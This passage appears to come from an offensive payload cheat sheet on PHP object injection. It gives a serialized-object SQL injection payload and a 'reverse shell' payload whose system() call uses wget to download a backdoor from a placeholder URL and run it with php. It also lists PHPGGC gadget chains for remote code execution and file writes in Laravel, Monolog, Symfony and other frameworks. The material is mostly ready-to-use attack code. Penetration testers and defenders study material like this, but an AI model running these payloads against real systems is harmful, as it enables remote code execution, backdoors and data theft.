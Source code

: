 ```
class SQL_Row_Value
{
   private $_table = "SQL Injection";
}

class Example3
{
   protected $obj;

   function __construct()
   {
      $this->obj = new SQL_Row_Value;
   }
}

print urlencode(serialize(new Example3));
```

### Others exploits:

- Reverse Shell:

```
class PHPObjectInjection
{
    // CHANGE URL/FILENAME TO MATCH YOUR SETUP
    public $inject = "system('wget http://URL/backdoor.txt -O phpobjbackdoor.php && php phpobjbackdoor.php');";
}

echo urlencode(serialize(new PHPObjectInjection));
```

### Finding and using gadgets (PHPGGC):

PHPGGC is a library of unserialize() payloads along with a tool to generate them, from command line or programmatically. When encountering an unserialize on a website you don’t have the code of, or simply when trying to build an exploit, this tool allows you to generate the payload without having to go through the tedious steps of finding gadgets and combining them. [Source](https://github.com/ambionics/phpggc)

```
$ ./phpggc -l

Gadget Chains
-------------

NAME                  VERSION           TYPE             VECTOR         I    
Doctrine/FW1          ?                 file_write       __toString     *    
Guzzle/FW1            6.0.0 <= 6.3.2    file_write       __destruct          
Guzzle/RCE1           6.0.0 <= 6.3.2    rce              __destruct          
Laravel/RCE1          5.4.27            rce              __destruct          
Laravel/RCE2          5.5.39            rce              __destruct          
Laravel/RCE3          5.5.39            rce              __destruct     *    
Laravel/RCE4          5.5.39            rce              __destruct          
Magento/SQLI1         ? <= 1.9.3.4      sql_injection    __destruct          
Monolog/RCE1          1.18 <= 1.23      rce              __destruct          
Monolog/RCE2          1.5 <= 1.17       rce              __destruct          
Phalcon/RCE1          <= 1.2.2          rce              __wakeup       *    
Slim/RCE1             3.8.1             rce              __toString          
SwiftMailer/FW1       5.1.0 <= 5.4.8    file_write       __toString          
SwiftMailer/FW2       6.0.0 <= 6.0.1    file_write       __toString          
SwiftMailer/FW3       5.0.1             file_write       __toString          
Symfony/FW1           2.5.2             file_write       DebugImport    *    
Symfony/RCE1          3.3               rce              __destruct     *    
```